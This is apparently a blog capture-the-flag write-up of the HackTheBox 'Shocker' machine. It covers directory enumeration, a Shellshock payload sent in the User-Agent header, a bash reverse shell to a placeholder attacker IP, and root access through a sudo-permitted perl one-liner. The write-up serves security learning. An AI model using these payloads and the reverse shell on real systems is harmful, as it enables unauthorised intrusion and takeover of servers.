 ```yaml
---
layout: post
title:	"Shocker Writeup"
date:	2018-09-13 03:00:00
categories:
    - writeups
tags:
    - ctf
    - boot2root
    - hackthebox
---
```

<head>
	<title> Shocker Writeup | HackTheBox </title>
</head>

![Screenshot]({{ site.baseurl }}/images/posts/2017/shocker/logo.png)

## i. Port Scan

![Screenshot]({{ site.baseurl }}/images/posts/2017/shocker/ports.png)

## ii. Enumeration / Low Priv Shell

Starting off with http, browsing to host:

![Screenshot]({{ site.baseurl }}/images/posts/2017/shocker/http.png)

Nothing interesting, let's see if we can find any hidden directories using `gobuster`

![Screenshot]({{ site.baseurl }}/images/posts/2017/shocker/gobuster1.png)

Wait... nothing found? That's because of two reasons: 
- gobuster by default does not show pages with 403 Status Codes (Forbidden). 
- the way that this apache is setup is that it'll report directories that do not have a / appended as 404.

Luckily for us, gobuster has those switches built-in. `-f to append directory flashes, and -s <status> for custom status codes`

Running gobuster with those two options:

![Screenshot]({{ site.baseurl }}/images/posts/2017/shocker/gobuster2.png)

~~~
$ gobuster -u http://10.10.10.56 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 25 -f -s 403
~~~

Seems like we found a new directory, `cgi-bin`, navigating to it we get the 403 mentioned before.

Let's see if we can use gobuster to find any files in the directory. Typically there are .sh files in /cgi-bin/, so we can use `-x` in gobuster for custom extensions.

![Screenshot]({{ site.baseurl }}/images/posts/2017/shocker/gobuster3.png)

Navigating to user.sh:

![Screenshot]({{ site.baseurl }}/images/posts/2017/shocker/download.png)

Downloading the file, and looking at the contents, we can see that the script is executing uptime when being called:

![Screenshot]({{ site.baseurl }}/images/posts/2017/shocker/uptime.png)

Let's try testing if the page is vulnerable to Shellshock since bash is involved.

~~~
Two great reads on how Shellshock works & how it's exploited:
https://www.symantec.com/connect/blogs/shellshock-all-you-need-know-about-bash-bug-vulnerability
https://security.stackexchange.com/questions/68122/what-is-a-specific-example-of-how-the-shellshock-bash-bug-could-be-exploited
~~~

Using Burp's repeater would make this easier, as we do not have to download the file every time to see the output:

![Screenshot]({{ site.baseurl }}/images/posts/2017/shocker/burp1.png)

The payload that I'm going to be using: 
~~~
() { :; }; echo; /bin/ls

If you want to execute another command, make sure you include the full path. ($ which command)
~~~

This will list the contents in the directory. I'm going to insert the payload into User-Agents. (You can use several HTTP-Headers such as User-Agent, Cookie, Accept, etc.)

![Screenshot]({{ site.baseurl }}/images/posts/2017/shocker/shellshock.png)

![Screenshot]({{ site.baseurl }}/images/posts/2017/shocker/response.png)

Looking at the response, we see that it prints out the directory contents, which means we have `command execution`

In order to get a low-privilege shell, I am going to use the bash reverse shell one-liner.

~~~
$ bash -i >& /dev/tcp/YOURIP/PORT 0>&1

http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet
~~~

![Screenshot]({{ site.baseurl }}/images/posts/2017/shocker/request2.png)

Looking at our listener:

![Screenshot]({{ site.baseurl }}/images/posts/2017/shocker/revshell.png)

## iii. Privilege Escalation

While enumerating the system, I checked `sudo -l` to see what commands can be ran as root:

![Screenshot]({{ site.baseurl }}/images/posts/2017/shocker/sudo.png)

We can run perl as root without a password.

Using a perl one-liner to spawn a shell with root privileges.

~~~
perl —e 'exec "/bin/sh";'

https://netsec.ws/?p=337
~~~
You won't see any output at first, but try executing a command.

![Screenshot]({{ site.baseurl }}/images/posts/2017/shocker/root.png)

##. iv. Conclusion

This box is great practice for Shellshock. Though, it's hard to find it in the wild nowadays, it's still a good idea to add it to your foundation.

~~~
Sources / Links:
[0]: https://www.symantec.com/connect/blogs/shellshock-all-you-need-know-about-bash-bug-vulnerability
[1]: https://security.stackexchange.com/questions/68122/what-is-a-specific-example-of-how-the-shellshock-bash-bug-could-be-exploited
[2]: http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet
[3]: https://netsec.ws/?p=337
~~~


